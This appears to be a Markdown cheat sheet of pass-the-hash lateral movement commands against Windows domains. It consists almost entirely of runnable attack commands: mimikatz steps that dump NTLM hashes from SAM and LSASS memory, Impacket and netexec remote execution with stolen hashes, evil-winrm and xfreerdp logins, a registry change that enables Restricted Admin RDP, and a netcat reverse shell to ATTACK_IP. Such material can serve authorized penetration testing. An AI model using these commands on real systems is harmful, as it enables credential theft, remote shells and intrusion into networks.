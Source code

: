 # Pass-the-Hash Lateral Movement 

## Tools: impacket , psexec , crackmapexec/netexec , evil-winrm , xfreerdp/remmina , smbclient , mimikatz

# Interactive shell

#### 1) mimikatz

 - mimikatz "privilege::debug sekurlsa::pth /user USER /domain:DOMAIN /ntlm:HASH /run:"C\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

#### 2) psexec (Impacket and Windows)

 - psexec.exe -AcceptEULA \\IP

 - impacket-psexec -hashes":HASH" USER@IP

## TIP: Both of these techniques give NT Authority/System shell (System/Admin access)

# Pseudo-shell (File write and read) (System/Admin access)

#### 1) crackmapexec/netexec

 - netexec smb IP_RANGE -u USER -d DOMAIN -H ':HASH'

 - netexec smb IP_RANGE -u USER -H ':HASH' --local-auth

#### 2) Impacket Library

 - atexec.py -hashes ":HASH" USER@IP "COMMAND"

 - smbexec.py -hashes ":HASH" USER@IP

## These techniques give NT Authority/System shell

 - wmiexec.py -hashes ":HASH" USER@IP

 - dcomexec.py -hashes ":HASH" USER@IP

# WinRM 

#### 1) evil-winrm

 - evil-winrm -i IP -u USER -H HASH

# SMB

#### 1) smbclient

 - smbclient.py -hashes ":HASH" USER@IP (Authenticate, then search files)

# RDP

#### 1) reg.py and xfreerdp/remmina

 - reg.py DOMAIN/USER@IP -hashes ':HASH' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisabledRestrictedAdmin' -vt 'REG_DWORD' -vd '0'

 - xfreerdp /u:USER /d:DOMAIN /pth:HASH /v:IP

# MSSQL

#### 1) crackmapexec/netexec

 - netexec mssql IP_RANGE -H ':HASH'

#### 2) mssqlclient.py

 - mssqlclient.py -windows-auth -hashes ":HASH" DOMAIN/USER@IP

# EXTRACT NTLM HASHES FROM LOCAL SAM

### privilege::debug

### token::elevate

### lsadump::sam -> LOCAL SAM DUMP

### sekurlsa::msv -> LSASS MEMORY DUMP

### token::revert

### sekurlsa::pth /user:USER.USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"C\tools\nc64.exe -e cmd.exe ATTACK_IP PORT" 

### nc -lvp PORT

# PtH (Linux)

### xfreerdp /v:VICTIM_IP /u:DOMAIN\USER /pth NTLM_HASH

### psexec.py -hashes NTLM_HASH DOMAIN\USER@VICTIM_IP

### evil-winrm -i VICTIM_IP -u USER -H NTLM_HASH
